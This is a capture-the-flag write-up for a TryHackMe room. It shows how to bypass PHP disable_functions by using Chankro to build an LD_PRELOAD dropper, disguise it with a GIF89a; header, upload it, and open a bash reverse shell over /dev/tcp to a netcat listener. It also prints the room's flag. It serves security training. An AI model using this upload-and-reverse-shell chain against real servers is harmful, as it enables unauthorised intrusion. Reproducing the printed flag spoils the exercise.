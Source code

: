 ## Bypass Disable Functions - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bypassdisablefunctions)

What is a file upload vulnerability?

This vulnerability occurs in web applications where there is the possibility of uploading a file without being checked by a security system that curbs potential dangers. 

It allows an attacker to upload files with code (scripts such as .php, .aspx and more) and run them on the same server, more information in this room.

Why this room?

Among the typically applied measures is disabling dangerous functions that could execute operating system commands or start processes. Functions such as system() or shell_exec() are often disabled through PHP directives defined in the php.ini configuration file. Other functions, perhaps less known as dl() (which allows you to load a PHP extension dynamically), can go unnoticed by the system administrator and not be disabled. The usual thing in an intrusion test is to list which functions are enabled in case any have been forgotten.

One of the easiest techniques to implement and not very widespread is to abuse the mail() and putenv() functionalities. This technique is not new, it was already reported to PHP in 2008 by gat3way, but it still works to this day. Through the putenv() function, we can modify the environment variables, allowing us to assign the value we want to the variable LD_PRELOAD. Roughly LD_PRELOAD will allow us to pre-load a .so library before the rest of the libraries, so that if a program uses a function of a library (libc.so for example), it will execute the one in our library instead of the one it should. In this way, we can hijack or "hook" functions, modifying their behaviour at will.

[Chankro](https://github.com/TarlogicSecurity/Chankro): tool to evade disable_functions and open_basedir

Through Chankro, we generate a PHP script that will act as a dropper, creating on the server a .so library and the binary (a meterpreter, for example) or bash script (reverse shell, for example) that we want to execute freely, and that will later call putenv() and mail() to launch the process.

Install tool:

```
git clone https://github.com/TarlogicSecurity/Chankro.git
cd Chankro
python2 chankro.py --help

python chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html

--arch = Architecture of system victim 32 o 64.
--input = file with your payload to execute
--output = Name of the PHP file you are going to create; this is the file you will need to upload.
--path = It is necessary to specify the absolute path where our uploaded PHP file is located. For example, if our file is located in the uploads folder DOCUMENTROOT + uploads. 
```

Now, when executing the PHP script in the web server, the necessary files will be created to execute our payload. My command run successfully, and I created a file in the directory with the output of the command.

All credit goes to [Tarlogic](https://www.tarlogic.com/es/blog/evadir-disable_functions-open_basedir/) for the script and explaining the method of the bypass.

**IP: 10.10.248.32**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: File Upload Vulnerabilities <br>

**Tools Used**: Nmap, Nikto, Gobuster, Chankro

[Chankro](https://github.com/TarlogicSecurity/Chankro)<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- First, I did Nmap scan as always.

  ```
  nmap -A -p- 10.10.248.32
  22 open, 80 open
  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  80 -> Apache httpd 2.4.18 ((Ubuntu))
  ```

- Ok, cool, so it has web app. I did Gobuster, it found couple of directories, and Nikto but I forgot to save Gobuster output...

  ```
  nikto -h 10.10.248.32
  /phpinfo.php
  Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64
  ```
  
- While I was going through web page, I found `/assets` and when I went to `/phpinfo.php` I found root directory `/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db`

---

## ⚙️ Shell Access

- Alrighty, let's start exploiting with Chankro. Tool is pretty simple, it is going to make your script into `.php` and allow it to execute custom payloads without the PHP restriction. Let's test it with basic command `whoami`.

  Make a shell, use Chankro then upload both files and open them on web page.

  ```
  #Creating payload
  nano command.sh
  
  #!/bin/bash
  
  whoami > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/exploit.txt

  #Save this payload

  #Now use Chankro
  python2 Chankro/chankro.py --arch 64 --input command.sh --output exploit.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
  ```

- Since that part is done, before you upload them, you must edit `exploit.php` by adding `GIF89a;` at the beginning of script othervise it won't work at all. Then upload exploits and open them on web page.

  ```
  go to http://10.10.248.32/uploads and open exploit.php
  
  go to http://10.10.248.32/exploit.txt and open it
  ```

- `exploit.txt` will show `www-data` which means command worked! Now let's do the same process again but with interractive shell instead of command.

  ```
  nano shell.sh
  
  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/[PORT] 0>&1
  
  #Save it.
  
  python2 Chankro/chankro.py --arch 64 --input shell.sh --output exploit2.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
  
  edit exploit2.php by adding GIF89a; at the beginning
  ```

- Now upload `exploit2.php`, start a listener and then open the `exploit2.php` on web page and you'll have interractive shell. Let's get the flag now.
  ```
  nc -lvnp [PORT]
  ```
  
---

## 🧍 User Privilege Escalation

- Getting the flag was pretty easy, use `find` to find it and then `cat` it.
  ```
  find / -name flag.txt
  
  cat /home/s4vi/flag.txt
  ```

---

## 🏁 Flags

- **User Flag**: `thm{bypass_d1sable_functions_1n_php}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much honestly.`

- What did I learn?
  `New tool and new exploits.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
